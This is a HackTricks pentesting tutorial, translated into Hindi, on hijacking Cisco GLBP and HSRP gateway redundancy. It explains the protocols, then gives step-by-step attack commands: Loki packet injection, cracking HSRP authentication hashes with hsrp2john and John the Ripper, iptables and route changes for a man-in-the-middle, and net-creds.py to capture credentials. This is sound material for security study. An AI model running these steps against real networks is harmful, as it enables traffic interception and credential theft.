 # GLBP & HSRP Attacks

{{#include ../../banners/hacktricks-training.md}}


## FHRP Hijacking Overview

### Insights into FHRP

FHRP को नेटवर्क की मजबूती प्रदान करने के लिए डिज़ाइन किया गया है, जो कई राउटर्स को एकल वर्चुअल यूनिट में मिलाता है, इस प्रकार लोड वितरण और दोष सहिष्णुता को बढ़ाता है। Cisco Systems ने इस सूट में प्रमुख प्रोटोकॉल पेश किए, जैसे GLBP और HSRP।

### GLBP Protocol Insights

Cisco का निर्माण, GLBP, TCP/IP स्टैक पर कार्य करता है, संचार के लिए UDP का उपयोग करते हुए पोर्ट 3222 पर। GLBP समूह में राउटर्स 3-सेकंड के अंतराल पर "hello" पैकेट्स का आदान-प्रदान करते हैं। यदि कोई राउटर 10 सेकंड के लिए इन पैकेट्स को भेजने में विफल रहता है, तो इसे ऑफ़लाइन माना जाता है। हालाँकि, ये टाइमर निश्चित नहीं होते हैं और इन्हें संशोधित किया जा सकता है।

### GLBP Operations and Load Distribution

GLBP राउटर्स के बीच लोड वितरण को सक्षम बनाकर अलग खड़ा होता है, जो एकल वर्चुअल IP के साथ कई वर्चुअल MAC पतों का उपयोग करता है। GLBP समूह में, प्रत्येक राउटर पैकेट फॉरवर्डिंग में शामिल होता है। HSRP/VRRP के विपरीत, GLBP कई तंत्रों के माध्यम से वास्तविक लोड संतुलन प्रदान करता है:

- **Host-Dependent Load Balancing:** एक होस्ट को स्थिर AVF MAC पता असाइनमेंट बनाए रखता है, जो स्थिर NAT कॉन्फ़िगरेशन के लिए आवश्यक है।
- **Round-Robin Load Balancing:** डिफ़ॉल्ट दृष्टिकोण, अनुरोध करने वाले होस्टों के बीच AVF MAC पता असाइनमेंट को वैकल्पिक करता है।
- **Weighted Round-Robin Load Balancing:** पूर्वनिर्धारित "Weight" मैट्रिक्स के आधार पर लोड वितरित करता है।

### Key Components and Terminologies in GLBP

- **AVG (Active Virtual Gateway):** मुख्य राउटर, जो समकक्ष राउटर्स को MAC पतों को आवंटित करने के लिए जिम्मेदार है।
- **AVF (Active Virtual Forwarder):** एक राउटर जिसे नेटवर्क ट्रैफ़िक प्रबंधित करने के लिए नामित किया गया है।
- **GLBP Priority:** एक मैट्रिक जो AVG को निर्धारित करता है, जो 100 के डिफ़ॉल्ट से शुरू होता है और 1 से 255 के बीच होता है।
- **GLBP Weight:** एक राउटर पर वर्तमान लोड को दर्शाता है, जिसे मैन्युअल रूप से या ऑब्जेक्ट ट्रैकिंग के माध्यम से समायोजित किया जा सकता है।
- **GLBP Virtual IP Address:** सभी जुड़े उपकरणों के लिए नेटवर्क का डिफ़ॉल्ट गेटवे के रूप में कार्य करता है।

इंटरैक्शन के लिए, GLBP आरक्षित मल्टीकास्ट पते 224.0.0.102 और UDP पोर्ट 3222 का उपयोग करता है। राउटर्स 3-सेकंड के अंतराल पर "hello" पैकेट्स भेजते हैं, और यदि 10 सेकंड के दौरान कोई पैकेट छूट जाता है, तो उन्हें गैर-कार्यात्मक माना जाता है।

### GLBP Attack Mechanism

एक हमलावर उच्चतम प्राथमिकता मान (255) के साथ GLBP पैकेट भेजकर प्राथमिक राउटर बन सकता है। इससे DoS या MITM हमले हो सकते हैं, जो ट्रैफ़िक को इंटरसेप्ट या रीडायरेक्ट करने की अनुमति देते हैं।

### Executing a GLBP Attack with Loki

[Loki](https://github.com/raizo62/loki_on_kali) एक GLBP हमले को प्राथमिकता और वजन को 255 पर सेट करके पैकेट इंजेक्ट करके कर सकता है। हमले से पहले के चरणों में वर्चुअल IP पते, प्रमाणीकरण की उपस्थिति, और राउटर प्राथमिकता मानों जैसी जानकारी इकट्ठा करना शामिल है, जैसे कि Wireshark का उपयोग करना।

Attack Steps:

1. प्रमिस्क्यूअस मोड में स्विच करें और IP फॉरवर्डिंग सक्षम करें।
2. लक्षित राउटर की पहचान करें और इसका IP प्राप्त करें।
3. एक Gratuitous ARP उत्पन्न करें।
4. AVG का अनुकरण करते हुए एक दुर्भावनापूर्ण GLBP पैकेट इंजेक्ट करें।
5. हमलावर के नेटवर्क इंटरफेस को GLBP वर्चुअल IP को दर्शाते हुए एक द्वितीयक IP पता असाइन करें।
6. पूर्ण ट्रैफ़िक दृश्यता के लिए SNAT लागू करें।
7. मूल AVG राउटर के माध्यम से निरंतर इंटरनेट एक्सेस सुनिश्चित करने के लिए रूटिंग को समायोजित करें।

इन चरणों का पालन करके, हमलावर "मैन इन द मिडल" के रूप में खुद को स्थापित करता है, जो नेटवर्क ट्रैफ़िक को इंटरसेप्ट और विश्लेषण करने में सक्षम होता है, जिसमें असुरक्षित या संवेदनशील डेटा शामिल है।

प्रदर्शन के लिए, यहां आवश्यक कमांड स्निपेट्स हैं:
```bash
# Enable promiscuous mode and IP forwarding
sudo ip link set eth0 promisc on
sudo sysctl -w net.ipv4.ip_forward=1

# Configure secondary IP and SNAT
sudo ifconfig eth0:1 10.10.100.254 netmask 255.255.255.0
sudo iptables -t nat -A POSTROUTING -o eth0 -j MASQUERADE

# Adjust routing
sudo route del default
sudo route add -net 0.0.0.0 netmask 0.0.0.0 gw 10.10.100.100
```
नेटवर्क ट्रैफ़िक की निगरानी और इंटरसेप्टिंग net-creds.py या समान उपकरणों का उपयोग करके किया जा सकता है ताकि समझौता किए गए नेटवर्क के माध्यम से बहने वाले डेटा को कैप्चर और विश्लेषण किया जा सके।

### HSRP हाईजैकिंग का पैसिव स्पष्टीकरण कमांड विवरण के साथ

#### HSRP (हॉट स्टैंडबाई राउटर/रिडंडेंसी प्रोटोकॉल) का अवलोकन

HSRP एक Cisco का स्वामित्व वाला प्रोटोकॉल है जिसे नेटवर्क गेटवे रिडंडेंसी के लिए डिज़ाइन किया गया है। यह एक साझा IP पते के साथ कई भौतिक राउटरों को एकल तार्किक इकाई में कॉन्फ़िगर करने की अनुमति देता है। इस तार्किक इकाई का प्रबंधन एक प्राथमिक राउटर द्वारा किया जाता है जो ट्रैफ़िक को निर्देशित करने के लिए जिम्मेदार होता है। GLBP के विपरीत, जो लोड संतुलन के लिए प्राथमिकता और वजन जैसे मैट्रिक्स का उपयोग करता है, HSRP ट्रैफ़िक प्रबंधन के लिए एकल सक्रिय राउटर पर निर्भर करता है।

#### HSRP में भूमिकाएँ और शब्दावली

- **HSRP सक्रिय राउटर**: वह उपकरण जो गेटवे के रूप में कार्य करता है, ट्रैफ़िक प्रवाह का प्रबंधन करता है।
- **HSRP स्टैंडबाई राउटर**: एक बैकअप राउटर, जो सक्रिय राउटर के विफल होने पर कार्यभार संभालने के लिए तैयार है।
- **HSRP समूह**: राउटरों का एक सेट जो एकल लचीला वर्चुअल राउटर बनाने के लिए सहयोग करता है।
- **HSRP MAC पता**: HSRP सेटअप में तार्किक राउटर को असाइन किया गया एक वर्चुअल MAC पता।
- **HSRP वर्चुअल IP पता**: HSRP समूह का वर्चुअल IP पता, जो जुड़े उपकरणों के लिए डिफ़ॉल्ट गेटवे के रूप में कार्य करता है।

#### HSRP संस्करण

HSRP दो संस्करणों में आता है, HSRPv1 और HSRPv2, जो मुख्य रूप से समूह क्षमता, मल्टीकास्ट IP उपयोग और वर्चुअल MAC पता संरचना में भिन्न होते हैं। प्रोटोकॉल सेवा जानकारी के आदान-प्रदान के लिए विशिष्ट मल्टीकास्ट IP पतों का उपयोग करता है, जिसमें हर 3 सेकंड में Hello पैकेट भेजे जाते हैं। यदि 10 सेकंड के अंतराल में कोई पैकेट प्राप्त नहीं होता है, तो राउटर को निष्क्रिय माना जाता है।

#### HSRP हमले की विधि

HSRP हमले सक्रिय राउटर की भूमिका को अधिकतम प्राथमिकता मान को इंजेक्ट करके बलात्कृत करने में शामिल होते हैं। इससे मैन-इन-द-मिडल (MITM) हमले का कारण बन सकता है। हमले से पहले के आवश्यक कदमों में HSRP सेटअप के बारे में डेटा एकत्र करना शामिल है, जिसे ट्रैफ़िक विश्लेषण के लिए Wireshark का उपयोग करके किया जा सकता है।

#### HSRP प्रमाणीकरण को बायपास करने के चरण

1. HSRP डेटा वाले नेटवर्क ट्रैफ़िक को .pcap फ़ाइल के रूप में सहेजें।
```shell
tcpdump -w hsrp_traffic.pcap
```
2. hsrp2john.py का उपयोग करके .pcap फ़ाइल से MD5 हैश निकालें।
```shell
python2 hsrp2john.py hsrp_traffic.pcap > hsrp_hashes
```
3. John the Ripper का उपयोग करके MD5 हैश को क्रैक करें।
```shell
john --wordlist=mywordlist.txt hsrp_hashes
```

**लोकी के साथ HSRP इंजेक्शन निष्पादित करना**

1. HSRP विज्ञापनों की पहचान करने के लिए लोकी लॉन्च करें।
2. नेटवर्क इंटरफ़ेस को प्रमिस्क्यूअस मोड में सेट करें और IP फॉरवर्डिंग सक्षम करें।
```shell
sudo ip link set eth0 promisc on
sudo sysctl -w net.ipv4.ip_forward=1
```
3. लोकी का उपयोग करके विशिष्ट राउटर को लक्षित करें, क्रैक किया गया HSRP पासवर्ड दर्ज करें, और सक्रिय राउटर की नकल करने के लिए आवश्यक कॉन्फ़िगरेशन करें।
4. सक्रिय राउटर की भूमिका प्राप्त करने के बाद, अपने नेटवर्क इंटरफ़ेस और IP टेबल को वैध ट्रैफ़िक को इंटरसेप्ट करने के लिए कॉन्फ़िगर करें।
```shell
sudo ifconfig eth0:1 10.10.100.254 netmask 255.255.255.0
sudo iptables -t nat -A POSTROUTING -o eth0 -j MASQUERADE
```
5. राउटिंग टेबल को संशोधित करें ताकि ट्रैफ़िक पूर्व सक्रिय राउटर के माध्यम से रूट हो।
```shell
sudo route del default
sudo route add -net 0.0.0.0 netmask 0.0.0.0 gw 10.10.100.100
```
6. इंटरसेप्टेड ट्रैफ़िक से क्रेडेंशियल कैप्चर करने के लिए net-creds.py या समान उपयोगिता का उपयोग करें।
```shell
sudo python2 net-creds.py -i eth0
```

इन चरणों को निष्पादित करने से हमलावर को ट्रैफ़िक को इंटरसेप्ट और हेरफेर करने की स्थिति में रखा जाता है, जो GLBP हाईजैकिंग की प्रक्रिया के समान है। यह HSRP जैसे रिडंडेंसी प्रोटोकॉल में कमजोरियों और मजबूत सुरक्षा उपायों की आवश्यकता को उजागर करता है।

## संदर्भ

- [https://medium.com/@in9uz/cisco-nightmare-pentesting-cisco-networks-like-a-devil-f4032eb437b9](https://medium.com/@in9uz/cisco-nightmare-pentesting-cisco-networks-like-a-devil-f4032eb437b9)


{{#include ../../banners/hacktricks-training.md}}
